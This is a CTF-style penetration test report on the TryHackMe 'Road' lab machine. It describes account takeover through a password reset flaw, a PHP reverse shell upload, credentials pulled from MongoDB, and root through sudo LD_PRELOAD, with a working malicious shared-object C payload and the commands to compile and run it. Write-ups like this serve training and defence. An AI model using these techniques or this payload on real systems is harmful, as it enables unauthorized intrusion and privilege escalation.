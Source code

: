 # 🛡️ Pentest Report: TryHackMe — Road (Medium)

## 1. Introduction
- **Date:** 12.09.2025  
- **Pentester:** ad4pt  
- **Target IP:** xxx.xxx.xxx.xxx  
- **Goal:** Identify vulnerabilities, exploit them, and obtain root access.  

---

## 2. Executive Summary
The penetration test of the *Road (Medium)* machine revealed multiple misconfigurations and vulnerabilities that allowed us to escalate privileges from a low-privileged web user to full root control.  

- **Open ports:** 22 (SSH), 80 (HTTP)  
- **Exploitation:** File upload vulnerability + insecure password reset → gained admin access  
- **Privilege Escalation:** Credential harvesting via MongoDB, then LD_PRELOAD abuse → root access  
- **Impact:** Full compromise of the system  

**Recommendation:** Patch web application logic, restrict DB access, and harden sudo rules.  

---

## 3. Methodology
1. **Reconnaissance:** Nmap scanning of open ports and services  
2. **Web Enumeration:** Directory brute forcing, CMS analysis, and login page investigation  
3. **Exploitation:** Abuse of password reset and file upload for PHP reverse shell  
4. **Privilege Escalation:** MongoDB credential discovery, SSH access, LD_PRELOAD misconfiguration  
5. **Post-Exploitation:** Root shell and flag retrieval  

---

## 4. Findings & Exploitation

### 4.1 Nmap Scan
Command used:
```bash
sudo nmap -sC -sV -Pn -p- xxx.xxx.xxx.xxx
```

**Results:**
- 22/tcp → SSH  
- 80/tcp → HTTP  

---

### 4.2 Web Enumeration
- Discovered directories using gobuster:  
  - `/phpmyadmin`  
  - `/index.php`  
  - `/v2` → redirected to `/v2/admin/login.html`  

- Found **login panel** with registration option.  

---

### 4.3 Exploitation of Web Application
1. Registered a new user → accessed profile section.  
2. Found **file upload function** (image upload).  
3. Discovered email `admin@sky.thm`.  
4. Abused **password reset** with Burp Suite: changed email parameter to `admin@sky.thm` → gained **admin access**.  
5. Uploaded **PHP reverse shell** → found file in `/v2/profileimages/`.  
6. Accessed shell via:
```
http://xxx.xxx.xxx.xxx/v2/profileimages/shell.php
```
7. Obtained shell as `www-data`.

---

## 5. Privilege Escalation

### 5.1 From www-data to webdeveloper
- Uploaded and ran **LinPEAS**.  
- Found `/usr/bin/mongod` running.  
- Connected to MongoDB locally:  
  ```bash
  mongo
  show databases
  use backup
  db.user.find()
  ```
- Extracted credentials:  
  - **User:** webdeveloper  
  - **Pass:** BahamasChapp123!@#  

- Logged in via SSH as `webdeveloper`.

---

### 5.2 From webdeveloper to root
- Checked sudo privileges:
```bash
sudo -l
```
- Found `/usr/bin/sky_backup_utility` executable with **LD_PRELOAD** allowed.  
- Created malicious shared object `shell.c`:
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
```
- Compiled and executed:
```bash
gcc -fPIC -shared -o /tmp/shell.so shell.c -nostartfiles
sudo LD_PRELOAD=/tmp/shell.so /usr/bin/sky_backup_utility
```
- Gained **root shell**.

---

## 6. Proof of Compromise
```bash
cat /root/root.txt
```

---

## 7. Recommendations
- Disable password reset parameter manipulation → validate user email properly.  
- Restrict file upload (file type validation, no PHP execution).  
- Remove unnecessary services (MongoDB exposed locally).  
- Update sudoers configuration → remove `env_keep+=LD_PRELOAD`.  
- Apply least privilege principle for user accounts.  

---

## 8. Appendix
- Nmap scan output  
- Gobuster results  
- MongoDB dump evidence  
- C exploit code for LD_PRELOAD  
